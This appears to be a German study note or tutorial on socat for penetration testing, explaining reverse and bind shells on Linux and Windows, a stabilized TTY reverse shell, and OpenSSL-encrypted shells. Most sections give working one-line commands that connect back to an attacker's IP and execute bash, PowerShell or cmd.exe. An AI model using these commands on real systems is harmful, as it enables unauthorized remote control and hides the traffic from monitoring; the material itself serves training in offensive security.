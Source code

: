 Socat ähnelt netcat in mancher Hinsicht, unterscheidet sich aber in vielen anderen Punkten grundlegend. Am einfachsten kann man sich socat als eine Verbindung zwischen zwei Punkten vorstellen. Alles, was socat tut, ist, eine Verbindung zwischen zwei Punkten herzustellen - ähnlich wie die Portalgun!


### Reverse Shells

Da die Syntax für Netcat durch Verfeinerungen immer Komplexer werden kann hier erstmal die Basic Syntax

```
socat TCP-L <PORT>
```

Diese Shell verbindet wie oben gesagt zwei Punkte direkt miteinander. Allerdings ist das Resultat etwas instabil und vergleichbar mit `nc -lvnp <Port>`

Unter Windows würden wir diesen Befehl verwenden, um eine Rückverbindung herzustellen:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

Die Option „pipes“ wird verwendet, um Powershell (oder cmd.exe) zu zwingen, die Standardein- und -ausgabe im Unix-Stil zu verwenden 
Dies ist der entsprechende Befehl für ein Linux-Ziel:

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC: „bash -li“
```

### Bind Shells

Auf einem Linux-Zielsystem würden wir den folgenden Befehl verwenden:
```
socat TCP-L:<PORT> EXEC: „bash -li“
```

Auf einem Windows-Ziel würden wir diesen Befehl für unseren Listener verwenden:
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Wir verwenden das Argument „Pipes“, um eine Schnittstelle zwischen den Unix- und Windows-Methoden zur Handhabung von Ein- und Ausgaben in einer CLI-Umgebung zu schaffen
Unabhängig vom Ziel verwenden wir diesen Befehl auf unserem Angriffsrechner, um eine Verbindung mit dem wartenden Listener herzustellen.

```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

### Stabile TTY Linux Reverse Shell

Die TTY Reverse shell funktioniert nur wie oben Geschrieben bei Linux Zielen. Hier die neue Listener Syntax

```
socat TCP-L <Port> FILE:`tty`,raw,echo=0
```

Erklärung des Befehls: 
Wie üblich, verbinden wir zwei Punkte miteinander. In diesem Fall sind diese Punkte ein Listening Port und eine Datei. Genauer gesagt, geben wir den aktuellen TTY als Datei an und setzen das Echo auf Null. Dies entspricht in etwa dem Trick mit Strg + Z, `stty raw -echo; fg` in einer netcat-Shell - mit dem zusätzlichen Vorteil, dass es sofort stabil ist und sich in ein vollständiges TTY einhakt.

Der erste Listener kann mit jeder beliebigen Payload verbunden werden; dieser spezielle Listener muss jedoch mit einem ganz bestimmten socat-Befehl aktiviert werden. Das bedeutet, dass das Ziel socat installiert haben muss. Auf den meisten Rechnern ist socat nicht standardmäßig installiert, es ist jedoch möglich, eine vorkompilierte socat-Binärdatei hochzuladen, die dann wie üblich ausgeführt werden kann.

Der spezielle Befehl dafür lautet wie folgt:
```
socat TCP:<Angreifer-ip>:<Angreifer-port> EXEC: „bash -li“,pty,stderr,sigint,setsid,sane
```
Argumente des Befehls erklärt
  
Der erste Teil ist einfach - wir verbinden uns mit dem Listener, der auf unserem eigenen Rechner läuft. Der zweite Teil des Befehls erzeugt eine interaktive Bash-Sitzung mit EXEC: "bash -li". Wir übergeben auch die Argumente: pty, stderr, sigint, setsid und sane:
- pty, weist ein Pseudoterminal auf dem Ziel zu - Teil des Stabilisierungsprozesses
- stderr, stellt sicher, dass alle Fehlermeldungen in der Shell angezeigt werden (oft ein Problem bei nicht-interaktiven Shells)
- sigint, leitet alle Ctrl + C-Befehle in den Unterprozess weiter, was uns erlaubt, Befehle innerhalb der Shell zu beenden
- setsid, erstellt den Prozess in einer neuen Sitzung
- sane, stabilisiert das Terminal und versucht, es zu "normalisieren".
Beispiel Bildlich
https://imgur.com/H12rVDW


### Encrypted Shells

Einer der Großen Vorteile an SoCat ist das man Encrypted Bind und Reverse Shells erstellen kann. Das ist deswegen sehr Praktisch da dann niemand in den Datenverkehr zwischen den Shells reinschnuppern kann.
Um Encrypted Shells zu nutzen muss erstmal ein openssl Zertifikat angelegt werden das geht via 

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Der Befehl legt ein self Signed Certifikat mit 2048bit RSA schlüssel an dessen gültigkeit unter einem Jahr ist. Wenn man diesen Befehl ausführt, wird man aufgefordert, Informationen über das Zertifikat einzugeben. Diese können leer gelassen oder nach dem Zufallsprinzip ausgefüllt werden.

Im Anschluss müssen die eben erstellten Dateien dann in eine zusammen gemerged werden via:

```
cat shell.key shell.crt > shell.pem
```

Nachdem dass alles passiert ist kann man den Listener aufsetzen via

```
 socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

Dies richtet einen OPENSSL-Listener ein, der unser generiertes Zertifikat verwendet. verify=0 weist die Verbindung an, nicht zu versuchen, zu überprüfen, ob unser Zertifikat von einer anerkannten Stelle ordnungsgemäß signiert wurde. Zu beachten ist, dass das Zertifikat auf dem Gerät verwendet werden muss, das die Abfrage durchführt.

Für Connect back ist dann der Befehl zuständig 

```
socat OPENSSL:<LOKALE-IP>:<LOKALER-PORT>,verify=0 EXEC:/bin/bash
```

Die gleiche Technik würde für eine Bind-Shell gelten:
Ziel:
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
Angreifer:
```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
Auch hier ist zu beachten, dass selbst für ein Windows-Ziel das Zertifikat mit dem Listener verwendet werden muss, so dass das Kopieren der PEM-Datei für eine Bind-Shell erforderlich ist.

BildBeispiel
https://imgur.com/RTT0BZ1

